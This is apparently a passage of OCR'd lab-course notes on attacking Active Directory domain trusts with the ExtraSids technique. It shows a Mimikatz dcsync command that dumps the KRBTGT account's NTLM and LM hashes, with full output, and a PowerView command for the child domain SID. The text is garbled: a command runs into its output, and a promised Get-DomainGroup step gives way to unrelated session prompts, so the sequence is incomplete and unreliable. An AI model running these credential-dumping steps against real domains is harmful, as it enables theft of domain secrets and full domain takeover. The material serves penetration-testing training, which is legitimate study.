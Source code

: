 # **Attacking Domain Trusts - Child -> Parent Trusts - from Windows**

The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

# **ExtraSids Attack - Mimikatz**

### **Obtaining the KRBTGT Account's NT Hash using Mimikatz**

`KRBTGT` is a service account for the KDC in AD.

- `PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`

```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

We can use the PowerView `Get-DomainSID` function to get the SID for the child domain,

```powershell
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain.


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist